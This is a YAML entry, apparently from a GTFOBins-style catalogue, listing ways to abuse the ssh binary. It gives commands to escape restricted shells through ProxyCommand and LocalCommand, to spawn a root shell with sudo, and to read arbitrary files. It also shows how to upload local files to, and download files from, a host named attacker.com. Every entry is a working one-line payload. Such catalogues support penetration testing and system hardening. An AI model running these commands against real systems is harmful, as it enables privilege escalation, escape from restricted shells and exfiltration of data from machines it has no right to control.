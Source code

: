 ```yaml
---
functions:
  shell:
    - description: Reconnecting may help bypassing restricted shells.
      code: ssh localhost $SHELL --noprofile --norc
    - description: Spawn interactive shell through ProxyCommand option.
      code: ssh -o ProxyCommand=';sh 0<&2 1>&2' x
    - description: Spawn interactive shell on client, requires a successful connection towards `host`.
      code: ssh -o PermitLocalCommand=yes -o LocalCommand=/bin/sh host
  file-upload:
    - description: Send local file to a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=file_to_save
        LPATH=file_to_send
        ssh $HOST "cat > $RPATH" < $LPATH
  file-download:
    - description: Fetch a remote file from a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=file_to_get
        LPATH=file_to_save
        ssh $HOST "cat $RPATH" > $LPATH
  file-read:
    - description: The read file content is corrupted by error prints.
      code: |
        LFILE=file_to_read
        ssh -F $LFILE localhost
  sudo:
    - description: Spawn interactive root shell through ProxyCommand option.
      code: sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
---
```

